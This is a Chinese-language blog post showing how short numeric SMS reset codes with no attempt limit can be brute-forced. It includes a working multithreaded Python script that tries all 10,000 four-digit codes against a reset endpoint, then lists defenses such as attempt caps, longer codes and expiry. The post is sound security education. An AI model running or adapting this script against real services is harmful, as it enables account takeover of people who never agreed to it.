 ```yaml
---
title: 找回密碼之簡訊驗證碼強度安全問題
author: ZhgChgLi
date: 2021-03-14T15:57:38.256Z
categories: ZRealm Dev.
tags: [ios-app-development,hacker,web-security,password-security,security-token]
---
```


### 找回密碼之簡訊驗證碼強度安全問題

使用 Python 展示暴力破解的嚴重性

![Photo by Matt Artz](/assets/99a6cef90190/1*xtbLIfJ6KELkGYeVCnzSFg.jpeg "Photo by Matt Artz")
Photo by [Matt Artz](https://unsplash.com/@mattartz?utm_source=unsplash&utm_medium=referral&utm_content=creditCopyText)
### 前言

本文沒什麼資安技術含量，單純是日前在使用某平台網站時的突發奇想；想說順手測看看安全性，結果發現的問題。

在使用網站、APP 服務的忘記密碼找回功能時；一般會有兩個選項，一是輸入帳號、Email，然後會寄含有 Token 的重設密碼頁面連結到信箱，點擊後打開頁面就能重設密碼，這部分沒什麼問題，除非像 [之前那篇](../142244e5f07a) 文章所說，設計上有漏洞才會有問題。

另一個找回密碼的方式是輸入綁定的手機號碼（多半用在 APP 服務），然後會寄出簡訊驗證碼到手機，完成驗證碼輸入即可重設密碼；但為了便利性，多半的服務都是使用純數字作為驗證碼，另外也因為在 iOS ≥ 11 之後增加 [Password AutoFill](../948ed34efa09) 功能，當手機收到驗證碼後鍵盤會自動判讀並跳出提示。

![](/assets/99a6cef90190/1*f7frmgNsLwW1Q9e9QtAt1A.png "")

查找 [官方文件](https://developer.apple.com/documentation/security/password_autofill/about_the_password_autofill_workflow) ，蘋果並沒有給出驗證碼自動填入的判讀格式規則；但我看幾乎所有能支援自動填入的服務都是使用純數字，推測應該是只能用數字不能使用數字英文夾雜的複雜組合。
### 問題

因數字密碼的組合存在暴力破解的可能性，尤其是 4 位密碼；組合只有 0000~9999，10,000 種組合；使用多個 thread 多台機器就能分組暴力破解。

假設驗證請求需要 0.1 秒回應，10,000 個組合 = 10,000 次請求
```
破解所需嘗試時間：((10,000 * 0.1) / thread 數) 秒
```

就算不開 thread 也只需要 16 多分種就能嘗試出正確的簡訊驗證碼。
> _除密碼長度、複雜度不足之外，還有個問題是驗證碼未設嘗試上限、有效期限太長這兩個問題。_

### 組合

綜合上述，此資安問題常見於 APP 端；因網頁服務多半都會在嘗試錯誤多次後加上圖形驗證碼驗證或在請求重設密碼時需多輸入安全問題，增加發送驗證請求的困難度；另外網頁服務的驗證若沒有前後端分離，變成每次驗證請求都要拿整個網頁，拉長請求回應時間。

APP 端因流程設計及方便使用者，多半會簡化重設密碼流程、有的 APP 甚至是通過手機號碼驗證就能登入；如果在 API 端沒有做防護則會造成資安漏洞。
### 實踐


> ⚠️警告⚠️ 本文僅作展示此安全問題的嚴重性，請勿拿去做壞事。

#### 嗅探驗證請求 API

萬事都從嗅探開始，這部分可參考之前的文章「 [APP有用HTTPS傳輸，但資料還是被偷了。](../46410aaada00) 」、「 [使用 Python+Google Cloud Platform+Line Bot 自動執行例行瑣事](../70a1409b149a) 」第一篇文章看原理建議使用第二篇文章的 [Proxyman](https://proxyman.io/) 進行嗅探。

![](/assets/99a6cef90190/1*22uVkKdpDXnwEygDa9lwyA.png "")

如果是前後端分離的網站服務也能使用 Chrome -> 檢查 -> Network -> 查看在送出驗證碼後發了什麼請求。

![](/assets/99a6cef90190/1*Skm69eJiZKeK4_QUU0wIoQ.png "")

**這邊假設得到的檢查驗證碼請求是：**
```
POST [https://zhgchg.li/findPWD](https://zhgchg.li/findPWD)
```

**Response：**
```
{
   "status":fasle
   "msg":"驗證錯誤"
}
```
#### 撰寫暴力破解 Python 腳本
```python
import random
import requests
import json
import threading

phone = "0911111111"
found = False
def crack(start, end):
    global found
    for code in range(start, end):
        if found:
            break
        
        stringCode = str(code).zfill(4)
        data = {
            "phone" : phone,
            "code": stringCode
        }

        headers = {}
        try:
            request = requests.post('https://zhgchg.li/findPWD', data = data, headers = headers)
            result = json.loads(request.content)
            if result["status"] == True:
                print("Code is:" + stringCode)
                found = True
                break
            else:
                print("Code " + stringCode + " is wrong.")
        except Exception as e:
            print("Code "+ stringCode +" exception error \(" + str(e) + ")")

def main():
    codeGroups = [
        [0,1000],[1000,2000],[2000,3000],[3000,4000],[4000,5000],
        [5000,6000],[6000,7000],[7000,8000],[8000,9000],[9000,10000]
    ]
    for codeGroup in codeGroups:
        t = threading.Thread(target = crack, args = (codeGroup[0],codeGroup[1],))
        t.start()

main()
```

執行腳本後我們得到：

![](/assets/99a6cef90190/1*jGp69g9H1BjLqq6SdIHRBw.png "")
```
驗證碼等於：1743
```

將 `1743` 帶入重設密碼更改掉原始密碼或直接登入帳號。


> Bigo!

### 解決之道
- 密碼重設增加更多資訊驗證（如：生日、安全問題）
- 增加驗證碼長度（如 Apple 6 碼數字）、增加驗證碼複雜度（如果不影響 AutoFill 功能）
- 驗證碼嘗試錯誤大於 3 次後使其失效，需請使用者重新發送驗證碼
- 驗證碼有效時限縮短
- 驗證碼嘗試錯誤過多次鎖定裝置、增加圖形驗證碼
- APP 多做 SSL Pining、傳輸加解密（防止嗅探）

### 延伸閱讀
- [揭露一個幾年前發現的巧妙網站漏洞](../142244e5f07a)
- [如何打造一場有趣的工程CTF競賽](../729d7b6817a4)
- [APP有用HTTPS傳輸，但資料還是被偷了。](../46410aaada00)
- [使用 Python+Google Cloud Platform+Line Bot 自動執行例行瑣事](../70a1409b149a)

[Like Z Realm's work](https://cdn.embedly.com/widgets/media.html?src=https%3A%2F%2Fbutton.like.co%2Fin%2Fembed%2Fzhgchgli%2Fbutton&display_name=LikeCoin&url=https%3A%2F%2Fbutton.like.co%2Fzhgchgli&image=https%3A%2F%2Fstorage.googleapis.com%2Flikecoin-foundation.appspot.com%2Flikecoin_store_user_zhgchgli_main%3FGoogleAccessId%3Dfirebase-adminsdk-eyzut%2540likecoin-foundation.iam.gserviceaccount.com%26Expires%3D2430432000%26Signature%3DgFRSNto%252BjjxXpRoYyuEMD5Ecm7mLK2uVo1vGz4NinmwLnAK0BGjcfKnItFpt%252BcYurx3wiwKTvrxvU019ruiCeNav7s7QUs5lgDDBc7c6zSVRbgcWhnJoKgReRkRu6Gd93WvGf%252BOdm4FPPgvpaJV9UE7h2MySR6%252B%252F4a%252B4kJCspzCTmLgIewm8W99pSbkX%252BQSlZ4t5Pw22SANS%252BlGl1nBCX48fGg%252Btg0vTghBGrAD2%252FMEXpGNJCdTPx8Gd9urOpqtwV4L1I2e2kYSC4YPDBD6pof1O6fKX%252BI8lGLEYiYP1sthjgf8Y4ZbgQr4Kt%252BRYIicx%252Bg6w3YWTg5zgHxAYhOINXw%253D%253D&key=a19fcc184b9711e1b4764040d3dc5c07&type=text%2Fhtml&schema=like)

有任何問題及指教歡迎 [與我聯絡](https://www.zhgchg.li/contact) 。



+-----------------------------------------------------------------------------------+

| **[View original post on Medium](https://medium.com/zrealm-ios-dev/%E6%89%BE%E5%9B%9E%E5%AF%86%E7%A2%BC%E4%B9%8B%E7%B0%A1%E8%A8%8A%E9%A9%97%E8%AD%89%E7%A2%BC%E5%BC%B7%E5%BA%A6%E5%AE%89%E5%85%A8%E5%95%8F%E9%A1%8C-99a6cef90190) - Converted by [ZhgChgLi](https://zhgchg.li)/[ZMediumToMarkdown](https://github.com/ZhgChgLi/ZMediumToMarkdown)** |

+-----------------------------------------------------------------------------------+
